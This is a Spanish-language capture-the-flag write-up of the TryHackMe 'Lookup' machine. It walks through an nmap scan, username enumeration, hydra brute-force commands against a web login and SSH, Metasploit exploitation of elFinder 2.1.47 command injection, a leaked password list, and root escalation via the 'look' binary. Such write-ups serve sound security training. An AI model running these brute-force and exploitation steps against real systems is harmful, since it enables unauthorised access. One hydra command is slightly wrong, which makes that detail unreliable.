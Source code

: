 # Conectividad

![image](https://github.com/user-attachments/assets/9c87be3b-8916-4137-a03a-6f2edaa733c0)

# Enumeración

```
sudo nmap -sCV -T4 --min-rate 4000 10.10.171.41
Starting Nmap 7.80 ( https://nmap.org ) at 2025-01-23 15:36 GMT
Nmap scan report for 10.10.171.41
Host is up (0.000096s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Did not follow redirect to http://lookup.thm
MAC Address: 02:E3:ED:A7:A5:D5 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.37 seconds
```

Al conectarnoos al http por puerto 80 nos encontramos que no busca por el dominio esta registrado a "lookup.thm" simplemente lo añadimos a nuestro DNS

```
echo "ip lookup.thm" | sudo tee -a /etc/hosts
```

Después de ir enumerando un rato, encontramos que hay una forma muy simple de saber si un usuario existe o no, hemos metido un sniper simplemente e ir probando nombres hasta que de un legnth diferente, encontramos:

- admin
- jose

Con esta información podemos hacer un ataque con hydra de fuerza bruta al usuario jose

```
hydra -l jose -P /usr/share/wordlists/rockyou.txt lookup.thm http-post-form "/login.php:username=^USER^&password=^PASS^:Wrong" -V
```

Sacamos la pass 

jose:password123

Al entrar parece ser que no metemos dentro de un subdominio, lo deberemos añadir

![image](https://github.com/user-attachments/assets/f665ba70-2623-4faf-b6d8-7c3aa298a162)

Una vez dentro vamos a enumerar esto que tiene buena pinta

# Explotación

En los archivos enumerados no encontramos información relevante vamos a inspeccionar si dicho software tiene alguna vulnerabilidad

![image](https://github.com/user-attachments/assets/b200dfec-b5c9-4af4-8ee6-c364211dc02d)

elfinder 2.1.47

![image](https://github.com/user-attachments/assets/effd91f5-235c-4553-9c3a-20488777da2f)

Parece que hay una vulnerabilidad de command injection

ya sabemos 

```
msfconsole
```

buscamos el modulo auxiliar

```
show options
```

configuramos las opciones y estamos dentro

![image](https://github.com/user-attachments/assets/9383bcc4-7b3b-46de-942e-9651189f4cbe)

Vamos a hacer una shell y sacar a ver la primera flag y posteriormente buscar la escala de privilegios

# Escala de privilegios

Con el usuario de www-data no tenemos privilegios para ver el user.txt vamos a probar otros vectores

![image](https://github.com/user-attachments/assets/a32dc666-d95c-4bd5-ad5b-6fa076a7a615)

Después de enumerar los servicios nos encontramos con el /usr/sbin/pwm

![image](https://github.com/user-attachments/assets/57788841-64f6-4878-8df0-4b62465e443b)

Parece ser que nos da el .password un archivo del home de think

![image](https://github.com/user-attachments/assets/d6cfdb64-1b8d-414d-b9d5-498114ff492a)



```

jose1006
jose1004
jose1002
jose1001teles
jose100190
jose10001
jose10.asd
jose10+
jose0_07
jose0990
jose0986$
jose098130443
jose0981
jose0924
jose0923
jose0921
thepassword
jose(1993)
jose'sbabygurl
jose&vane
jose&takie
jose&samantha
jose&pam
jose&jlo
jose&jessica
jose&jessi
josemario.AKA(think)
jose.medina.
jose.mar
jose.luis.24.oct
jose.line
jose.leonardo100
jose.leas.30
jose.ivan
jose.i22
jose.hm
jose.hater
jose.fa
jose.f
jose.dont
jose.d
jose.com}
jose.com
jose.chepe_06
jose.a91
jose.a
jose.96.
jose.9298
jose.2856171
```

Le metemos una ataque por hydral al ssh ya que sabemos dicho usuario

```
hydra -l think -p pass.txt ip ssh
```

![image](https://github.com/user-attachments/assets/3d443d03-a75f-43b0-9eaf-9e7195573434)

Una vez estemos dentro empezaremos a escalar privilegios

En gtfo bins parece ser que tenemos un problema con los permisos de "look"

https://gtfobins.github.io/gtfobins/look/

Simplemente con esto o podemos buscar la id_rsa del root y leer el root.txt o ir directamente a:

![image](https://github.com/user-attachments/assets/6cb858b4-0e6d-400d-b392-d411b49c760f)

GG!!!!
